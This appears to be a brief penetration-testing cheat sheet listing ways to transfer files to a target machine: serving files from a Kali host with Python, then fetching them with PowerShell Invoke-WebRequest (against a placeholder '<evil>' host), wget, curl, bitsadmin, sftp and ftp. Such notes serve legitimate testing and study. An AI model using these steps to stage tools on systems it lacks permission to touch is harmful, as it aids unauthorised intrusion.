 ```yaml
---
title: Ways to transfer files
updated: 2025-05-15 04:22:05Z
created: 2025-05-01 07:27:19Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


### Download via Kali web server
1. Start web server
`python3 -m http.server 80`

2. On the client, download using:

### Overview of iwr (Invoke-WebRequest):
**Invoke-WebRequest** is a cmdlet in PowerShell used to send HTTP requests to a web server, fetch content, and interact with REST APIs or download files.

`iwr -uri http://<evil>/<source> -Outfile <target>`
  
### wget
`wget -O <output_file> https://example.com/file.zip`

### curl
`curl -o <output_file> https://example.com/file.zip`

### bitsadmin
`bitsadmin /transfer mydownloadjob /download /priority high https://example.com/file.zip <output_file>`

### SFTP/FTP
`sftp <user>@<target>`
`get /<remote>/file.zip /<local>/file.zip`

`ftp ftp.example.com`
login with username/password
`get /<remote>/file.zip`